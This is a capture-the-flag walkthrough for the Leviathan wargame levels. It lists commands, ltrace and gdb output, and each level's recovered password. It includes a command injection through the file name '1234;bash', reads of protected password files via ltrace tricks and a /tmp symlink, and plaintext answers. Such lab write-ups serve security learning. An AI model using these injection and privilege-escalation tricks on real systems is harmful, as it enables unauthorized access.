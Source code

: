 # Leviathan1
``` 
cd ./.backup
cat * | grep leviathan
```
flag:rioGegei8m
# Leviathan2
```
ltrace check
./check 
./check 
cat /etc/leviathan_pass/leviathan2
```
flag:ougahZi8Ta
# Leviathan3
```
mkdkir /tmp/test1
cd /tmp/test1
ltrace ~/printfile /etc/passwd
```
The program output:
```
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("/etc/passwd", 4)                                                  = 0
snprintf("/bin/cat /etc/passwd", 511, "/bin/cat %s", "/etc/passwd")       = 20
geteuid()                                                                 = 12002
geteuid()                                                                 = 12002
setreuid(12002, 12002)                                                    = 0
```
In line 3, We can use ; in filename to inject code.<br>
filename : 1234;bash

flag:Ahdiemoo1j
# Leviathan4
``` 
ltrace ./level3
```
```
strcmp("h0no33", "kakaka")                                                                      = -1
printf("Enter the password> ")                                                                  = 20
fgets(Enter the password> aaa
"aaa\n", 256, 0xf7fc55a0)                                                                 = 0xffffd590
strcmp("aaa\n", "snlprintf\n")                                                                  = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)
```
In line 4,There is a strcmp() function compare our imput with snlprintf.

flag:vuH0coox6m
# Leviathan5
```
cd ~/.trash/
ltrace ./bin
```
```
__libc_start_main(0x80484bb, 1, 0xffffd774, 0x80485b0 <unfinished ...>
fopen("/etc/leviathan_pass/leviathan5", "r")                                                    = 0
```
We can see that the program open the password file for level5 and read it.
Output :
```
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
```
These are level5 password in binary, deocde it [online](https://www.rapidtables.com/convert/number/binary-to-ascii.html) or use a python script.

```python
import re
a = '01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010'
string = ''

a = re.findall('........',a.replace(' ',''))
for n in a:
    string += chr(int(n,base=2))

print(f'password is : {string}')

```
flag:Tith4cokei

# Leviathan6
```
ltrace ./leviathan5
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
```
flag:UgaoFee4li

# Leviathan7
## In gdb
```
   0x08048587 <+76>:  call   0x8048420 <atoi@plt>
   0x0804858c <+81>:  add    $0x10,%esp
   0x0804858f <+84>:  cmp    -0xc(%ebp),%eax
   0x08048592 <+87>:  jne    0x80485bf <main+132>
   0x08048594 <+89>:  call   0x80483c0 <geteuid@plt>
```
Look at the program assembler, In line 3 it compare eax register with the value at ebp-0xc.
```
break*0x0804858f
r 1234
```
Use info register to take a look at the value at eax, and the value are same as the input.
```
eax            0x4d2  1234
```

Use  x/w $ebp-0xc to look at the 4 digit code.
```
0xffffd68c:  7123
```
flag:ahy7MaeBo9















 
